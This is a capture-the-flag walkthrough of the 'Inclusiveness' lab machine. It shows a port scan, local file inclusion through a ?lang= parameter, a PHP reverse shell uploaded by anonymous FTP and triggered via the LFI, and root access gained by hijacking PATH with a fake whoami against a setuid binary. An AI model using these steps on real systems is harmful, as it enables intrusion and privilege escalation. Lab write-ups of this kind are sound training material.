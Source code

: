 ```yaml
---
categories: [Proving Grounds Play, Walkthrough]
tags: [PrivEsc]
---
```


Lets check the IP address ➡️

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled.png)

```jsx
IP : 10.10.2.50
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Inclusiveness]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.50
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 21:15 IST
Nmap scan report for 10.0.2.50
Host is up (0.00068s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.0.2.27
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 061ba39283a57a15bd406e0c8d98277b (RSA)
|   256 cb3883261a9fd35dd3fe9ba1d3bcab2c (ECDSA)
|_  256 6554fc2d12ace184783e0023fbe4c9ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:6F:A3:19 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ➡️

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%201.png)

Lets see the directory listing files —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%202.png)

Now lets check the `robots.txt` file ➡️

![image_1.png](/Vulnhub-Files/img/Inclusiveness/image_1.png)

Now lets look at this directory —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%203.png)

Lets check for english link which leads me for directory traversal attack → `/etc/passwd` →

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%204.png)

Other than this I was unable to get any foothold into any internal directory files so I brute-force with LFI Injection payloads through burpsuite and I got this file —> `/etc/vsftpd.conf`

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%205.png)

Now I have also access with ftp so lets upload the reverse shell file in it —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%206.png)

Now I have uploaded the file in location /ftp/pub/shell.php lets load it and get my reverse shell →

URL —> `http://10.0.2.50/secret_information/?lang=/var/ftp/pub/shell.php`

In response to that I got this —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%207.png)

Now lets recon further ⤵️

```bash
www-data@inclusiveness:/home/tom$ ls -al
ls -al
total 100
drwxr-xr-x 15 tom  tom   4096 Feb  8  2020 .
drwxr-xr-x  3 root root  4096 Feb  8  2020 ..
-rw-------  1 tom  tom    684 Feb  8  2020 .ICEauthority
-rw-r--r--  1 tom  tom    220 Feb  8  2020 .bash_logout
-rw-r--r--  1 tom  tom   3526 Feb  8  2020 .bashrc
drwx------ 10 tom  tom   4096 Feb  8  2020 .cache
drwx------ 10 tom  tom   4096 Feb  8  2020 .config
drwx------  3 tom  tom   4096 Feb  8  2020 .gnupg
drwx------  3 tom  tom   4096 Feb  8  2020 .local
-rw-r--r--  1 tom  tom    807 Feb  8  2020 .profile
drwx------  2 tom  tom   4096 Feb  8  2020 .ssh
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Desktop
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Documents
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Downloads
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Music
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Pictures
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Public
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Templates
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Videos
-rwsr-xr-x  1 root root 16976 Feb  8  2020 rootshell
-rw-r--r--  1 tom  tom    448 Feb  8  2020 rootshell.c
www-data@inclusiveness:/home/tom$
```

Lets check the `rootshell` file which executes as root and I have access to read `rootshell.c` file →

```bash
www-data@inclusiveness:/home/tom$ cat rootshell.c
cat rootshell.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
	setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}

www-data@inclusiveness:/home/tom$
```

Now In this program whoami should be equal to tom to get our shell so I have to make whoami which says echo’s tom and it will execute accordingly →

```bash
www-data@inclusiveness:/home/tom$ cd /tmp
cd /tmp
www-data@inclusiveness:/tmp$ echo 'echo "tom"' >whoami
echo 'echo "tom"' >whoami
www-data@inclusiveness:/tmp$ cat whoami
cat whoami
echo "tom"
www-data@inclusiveness:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
www-data@inclusiveness:/tmp$ /home/tom/rootshell
/home/tom/rootshell
checking if you are tom...
you are: tom

access granted.
# /bin/bash -i
/bin/bash -i
root@inclusiveness:/tmp# whoami
whoami
tom
root@inclusiveness:/tmp# export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
<l/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
root@inclusiveness:/tmp# whoami
whoami
root
root@inclusiveness:/tmp# cd ~
cd ~
root@inclusiveness:/root# ls -al
ls -al
total 64
drwx------  5 root root  4096 Feb  8  2020 .
drwxr-xr-x 19 root root  4096 Feb  8  2020 ..
-rw-r--r--  1 root root   570 Jan 31  2010 .bashrc
drwx------  2 root root  4096 Feb  8  2020 .cache
-rw-------  1 root root    34 Feb  8  2020 .lesshst
drwxr-xr-x  3 root root  4096 Feb  8  2020 .local
-rw-r--r--  1 root root   148 Aug 18  2015 .profile
drwxr-xr-x  2 root root  4096 Feb  8  2020 .vim
-rw-------  1 root root 21141 Feb  8  2020 .viminfo
-rw-r--r--  1 root root    21 Feb  8  2020 .vimrc
-rw-r--r--  1 root root   141 Feb  8  2020 flag.txt
root@inclusiveness:/root# cat flag.txt
cat flag.txt
|\---------------\
||                |
|| UQ Cyber Squad |       
||                |
|\~~~~~~~~~~~~~~~\
|
|
|
|
o

flag{omg_you_did_it_YAY}
root@inclusiveness:/root#
```